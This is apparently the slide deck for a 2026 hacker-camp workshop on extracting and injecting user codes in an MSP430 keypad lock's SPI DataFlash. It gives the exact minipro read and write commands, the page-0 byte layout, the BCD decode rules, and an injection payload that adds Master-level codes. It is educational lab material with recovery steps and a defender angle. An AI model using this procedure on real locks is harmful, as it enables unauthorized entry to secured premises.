

WORKSHOP · ORIENTATION
DEAD BYTES
TELL NO LIES
TELL NO LIES
Hands-On DataFlash Decoding and Injection · Access Control Locks
TOORCAMP 2026 · YOGA STUDIO · JUN 27 · 5:30–7:00 PM
the chip is an Adesto AT45DB041E SPI DataFlash — NOT NAND.
the published title says NAND. the chip on the bench says otherwise.
dead-bytes.workshop
WHAT THIS LOCK IS
What This Lock Is

MCU: MSP430F2418
DataFlash: Adesto AT45DB041E (4 Mbit SPI · NOR-based · SRAM-buffered)
codes live: page 0 · plaintext · packed BCD
recovery: no OTP fuses — write the baseline back, always
the user codes that open the door are sitting in plaintext on a $0.50 flash chip.
dead-bytes.workshop
THE DEAL
What You'll Do in 25 Minutes
READ→
DECODE→
INJECT→
WRITE→
VERIFY
At a station you read the chip, decode the codes in its DataFlash,
inject 3 new codes at 3 privilege levels into 3 slots, write it back,
and watch the lock accept each one on the keypad.
If anything goes sideways, the recovery write restores the lock in ~20s.
You cannot brick it. There are no OTP fuses.
dead-bytes.workshop
CHEAT-SHEET · PAGE-0 LAYOUT
DataFlash Page-0 Layout
00000000: fdb1 b2b3 b4b5 b6b7 b8b9 1b11 1213 1415 ................ 00000010: 1617 1819 2b21 2223 2425 2627 2829 3b31 ....+!"#$%&'();1 00000020: 3233 3435 3637 3839 4b41 4243 4445 ffff 23456789KABCDE.. 00000030: ffff ffb1 b2b3 b4b5 b6b7 b8b9 1b11 1213 ................ 00000040: 1415 1617 1819 2b21 2223 2425 2627 2829 ......+!"#$%&'() 00000050: 3b31 3233 3435 3637 3839 4b41 4243 4445 ;123456789KABCDE 00000060: ffff ffff ffb1 b2b3 b4b5 b6b7 b8b9 1b11 ................ 00000070: 1213 1415 1617 1819 2b21 2223 2425 2627 ........+!"#$%&' 00000080: 2829 3b31 3233 3435 3637 3839 4b41 4243 ();123456789KABC 00000090: 4445 ffff ffff ff01 0101 0101 0101 0101 DE.............. 000000a0: 0101 0101 0101 0101 0101 0101 0101 0101 ................ 000000b0: 0101 0101 0101 0101 0101 0101 0101 0101 ................ 000000c0: 0101 0101 ffff ffff ff01 f101 e101 c101 ................ 000000d0: f101 0101 e101 0101 0101 c101 0101 0101 ................ 000000e0: 0101 0101 0101 0101 0101 0101 0101 0101 ................ 000000f0: 0101 0101 0101 ffff ffff ffff ffff ffff ................ 00000100: ffff ffff ffff ffff ........
0x00 page marker
0x01–0x32 code byte 1
0x33–0x64 code byte 2
0x65–0x96 code byte 3
0x97–0xC8 active flag
0xC9–0xFA permission
0xFB–0x107 padding
one slot N: code1=0x01+N · code2=0x33+N · code3=0x65+N · active=0x97+N · perm=0xC9+N. each band 50 bytes — same data, shifted right one band — that is the diagonal.
full 50-user decoded table is on the printed handout.
dead-bytes.workshop
CHEAT-SHEET · DECODE RULES
Decode Rules
1 · PACKED BCD
one code byte = two decimal digits, one per nibble
0x42 → 4 2 0x37 → 3 7
a 6-digit code = 3 bytes (high nibble first, left to right)
2 · THE TRAP · digit 0 is NOT 0
a decimal 0 is stored as nibble 0xB
0 → B (NOT 0x00 · NOT ASCII '0' 0x30)
so in a hex view a digit-zero shows as "B" —
it is the nibble value 0xB, not the letter B.
3 · PERMISSION BYTE
F1 Master
E1 Elevated
C1 Supervisor
01 Normal
FF empty
4 · ACTIVE BYTE
01 active
FF empty
WORKED EXAMPLE · a code with a zero in it
code 4 2 0 4 2 0
nibble 4 2 B 4 2 B ← every 0 became 0xB
byte 0x42 0xB4 0x2B
420420 is stored as 42 B4 2B on the chip.
dead-bytes.workshop
REFERENCE · SLOT-0 ANOMALY
The Slot-0 Anomaly
SLOT 0 ON THE BENCH LOCK
code byte 1 0x0001 0x12 → "12"
code byte 2 0x0033 0x34 → "34"
code byte 3 0x0065 0x56 → "56" CODE = 123456
active 0x0097 0x01 ACTIVE
permission 0x00C9 0x01 Normal User ← not Master
123456 is the Alarm Lock factory-default MASTER code.
but the permission byte says NORMAL USER.
the code value is decoupled from the role.
this lock was re-mastered before you got here — the new master lives
elsewhere on the chip; 123456 was left behind as a Normal User.
the firmware honors the role field, independent of the code or the slot.
dead-bytes.workshop
PROCEDURE · STATION FLOW
The Station Flow
ADVANCED · CLI raw programmer
1READ
sudo minipro -i -p 'AT45DB041E[Page264]@SOIC8' -r my-dump.bin
want 540672 bytes · chip-ID 0x0000 = re-seat the clip
2DECODE
xxd my-dump.bin | head -20
byte 0 = FD · decode slot 0 · notice the permission flag
3INJECT
python3 ~/workshop/build-injected.py my-dump.bin injected.bin
15-byte patch · 3 slots · 3 privilege levels
4WRITE
sudo minipro -i -p 'AT45DB041E[Page264]@SOIC8' -w injected.bin
~20s · "Verification OK" = it took
5VERIFY
re-read · cmp injected.bin post-write.bin
punch each code on the keypad · the lock opens
BROWSER TOOL point-and-click

dead-bytes.workshop
REFERENCE · INJECTION PAYLOAD
The Injection Payload
THE 3 CODES YOU INJECT
slot code bytes (packed BCD) permission perm byte
19 133769 0x13 0x37 0x69 Master 0xF1
32 420420 0x42 0xB4 0x2B Supervisor 0xC1 ← exercises 0xB-for-zero
49 696969 0x69 0x69 0x69 Elevated 0xE1
WATCH SLOT 32 the two zeros land at nibble 0xB in code bytes 2 and 3.
look for b4 at column 0x53 and 2b at column 0x85
in your own xxd. if 420420 unlocks → the 0xB rule is real.
dead-bytes.workshop
SAFETY NET · RECOVERY WRITE
NOTHING YOU DO HERE IS PERMANENT.
recovery write — ~20 seconds, restores the lock to baseline:sudo minipro -i -p 'AT45DB041E[Page264]@SOIC8' -w \
~/workshop/intact-lock-AT45DB041E-main-2026-05-20.bin
the AT45DB041E has no OTP fuses · no auto-lock-on-write.
recovery is unconditionally available. you cannot brick it.
ask a facilitator anytime.
dead-bytes.workshop
SIGNAGE · STATION MAP
Station Map
P1 P2 P3 P4 programmer stations — read→decode→inject→write→verify
~25 min each · one facilitator per station
S1 standalone lock demo — remote-release jumper bridge,
stiff-wire attack, defender discussion
S2 standalone lock demo — spare attacks + physical-vuln talk
D1 drill-open core station — take a turn drilling a spare core
WAITING FOR A PROGRAMMER SLOT?
go drill a core (D1) · hit the standalone demos (S1 / S2)
dead-bytes.workshop
SAFETY · DRILL STATION
D1 · DRILL STATION — GEAR ON FIRST
SAFETY GLASSES
ear protection
nitrile / work gloves
cutting lube on the bit · rag for chips · tray for cores
NO GLASSES, NO DRILL. not negotiable.
want to watch instead? that's fine — stand back of the line.
stuck bit? reverse before pulling · pull straight, not angled · ask a facilitator
dead-bytes.workshop
CLOSE · TAKE IT HOME
TAKE IT HOME
repo github.com/Qweary/ToorCamp2026-LockTalk-LockWorkshop
code · dumps · 33pp handwritten notes · 5-part blog series
tool minipro (David Griffith fork) · Xgecu T48 (~$30–55 then; ~$70–75 now)
hex imhex.werwolv.net
blog qweary.github.io
contact Qweary
everything you did here is on real hardware.
everything is in the repo. all of it is replicable.
everything is in the repo. all of it is replicable.
dead-bytes.workshop
TROUBLESHOOT · BAD DUMP
Reading a Bad Dump
DID YOUR READ WORK?
540,672 bytes good. main array, 264-byte native page mode.
540,800 bytes tool also grabbed the Security Register — ignore the last 128.
524,288 bytes wrong mode (256-byte). unusable — re-read with the device string.
all 0x00 clip not on the chip — re-seat the SOIC-8 clip.
Chip ID 0x0000 clip didn't bite — re-seat. do NOT add -y on the first try.
firmware-mismatch warning? non-blocking. let it scroll past.
dead-bytes.workshop
TROUBLESHOOT · CODE FAILS
When a Code Fails
PUNCHED THE CODE — IT DIDN'T OPEN?
all 3 injected fail, 123456 still works page 0 didn't take · re-clip, re-write
133769 + 696969 work, 420420 doesn't 0xB-for-zero may differ this revision · flag it
only 133769 works perm-flag semantics may differ · flag it
nothing works, not even 123456 page 0 corrupted · run the recovery write (W9)
a "valid" end state is EITHER:
all four codes unlocking OR recovered to baseline with 123456 unlocking.
you saw the attack work. you saw recovery work. both are wins.
dead-bytes.workshop
DEPTH · THE DEFENDER'S TELL
The Advanced Beat
IF YOU HAVE TIME — THE INTERESTING PART
inject 133769 as Master (0xF1). it opens the door.
now try programming-mode entry with 133769. it WON'T open programming mode —
even though the chip says it's Master.
the flash-write attack is enough for unauthorized ENTRY.
it is NOT enough for sustained operational CONTROL.
the firmware does extra validation for programming mode that ordinary
unlock does not. the audit log behaves differently for injected codes
than for keypad-programmed ones. that difference is the defender's tell.
dead-bytes.workshop